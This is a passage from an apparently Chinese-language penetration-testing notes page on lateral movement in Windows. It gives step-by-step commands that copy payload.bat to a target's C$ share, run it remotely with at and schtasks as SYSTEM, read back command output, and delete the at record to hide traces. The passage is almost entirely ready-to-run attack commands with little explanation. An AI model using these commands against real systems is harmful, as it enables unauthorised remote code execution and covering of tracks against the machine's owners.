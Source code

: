 ##### [](#%E5%B0%86-payload-%E5%A4%8D%E5%88%B6%E5%88%B0%E7%9B%AE%E6%A0%87%E7%B3%BB%E7%BB%9F%E4%B8%AD)将 payload 复制到目标系统中

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>copy payload.bat \\IP\C$<br>``` |

##### [](#%E4%BD%BF%E7%94%A8-at-%E5%91%BD%E4%BB%A4%E5%88%9B%E5%BB%BA%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)使用 at 命令创建计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>at \\IP 8:00AM C:\payload.bat<br>``` |

返回一个计划任务 ID

##### [](#%E6%B8%85%E9%99%A4-at-%E8%AE%B0%E5%BD%95)清除 at 记录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>at \\IP taskID /delete<br>``` |

使用 at 将执行结果保存到远程，再读取结果：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>at \\IP 8:00AM cmd.exe /c "ipconfig > C:/1.txt"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>type \\IP\C$\1.txt<br>``` |

#### [](#schtask-%E5%91%BD%E4%BB%A4)schtask 命令

##### [](#%E5%BB%BA%E7%AB%8B-ipc-%E8%BF%9E%E6%8E%A5)建立 IPC 连接

##### [](#%E5%88%9B%E5%BB%BA%E5%90%8D%E4%B8%BA-task-%E7%9A%84%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)创建名为 task 的计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtask /create /s IP /tn test /sc onstart /tr c:\payload.bat /ru system /f<br>``` |

##### [](#%E6%89%A7%E8%A1%8C%E8%AF%A5%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)执行该计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtask /run /s IP /i /tn "test"<br>``` |

##### [](#%E5%88%A0%E9%99%A4%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)删除计划任务
